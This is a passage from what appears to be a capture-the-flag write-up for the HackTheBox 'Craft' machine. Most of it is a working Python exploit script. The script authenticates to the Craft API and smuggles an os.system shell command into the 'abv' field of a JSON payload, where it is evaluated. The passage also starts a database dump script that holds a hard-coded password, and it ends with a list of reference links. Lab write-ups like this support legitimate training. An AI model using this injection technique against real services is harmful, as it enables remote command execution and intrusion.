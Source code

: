 ```python 
    global username, password, auth_url

    r = requests.get(auth_url, auth=(username, password), verify=False)
    return r.json()['token']


def exploit(command, token):
    global target_url

    # Let's just inject shell commands
    injection_format = '''__import__("os").system("{} &")'''
    inject = injection_format.format(command)

    # To be sent as json
    payload = {
        "id": 4222,
        "brewer": "Stewy Brewy",
        "name": "SplashTown Heckahol",
        "style": "YPA",
        "abv": inject
    }

    headers = {
        "X-Craft-API-Token": token
    }

    r = requests.post(target_url, json=payload, headers=headers, verify=False)
    print(r.content)


def main():
    token = authenticate()
    exploit(args.command, token)


if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "command",
        help="Command or code to inject as exploit"
    )
    args = parser.parse_args()

    main()
```

# db_dump.py

```python
#!/usr/bin/env python
import pymysql

# Hard-coded connection info so no need to write to app directory
connection = pymysql.connect(
    host="db",
    user="craft",
    password="qLGockJ6G2J75O",
    db="craft",
    cursorclass=pymysql.cursors.DictCursor
)

try:
```

[1]: https://www.vaultproject.io/ "Vault by HashiCorp"
[2]: https://gogs.io/ "Gogs is a self-hosted Git service"
[3]: https://www.hackthebox.eu/home/machines/profile/197 "HackTheBox: Craft"
[4]: https://docs.python.org/3/library/functions.html?highlight=eval#eval "Python3 eval function"
[5]: https://docs.python.org/3/library/os.html?highlight=os#module-os "Python3 os.system"
[6]: https://docs.python.org/3/reference/simple_stmts.html#import "Python3 Import statement"
[7]: https://docs.python.org/3/library/functions.html#__import__ "Python3 __import__ function"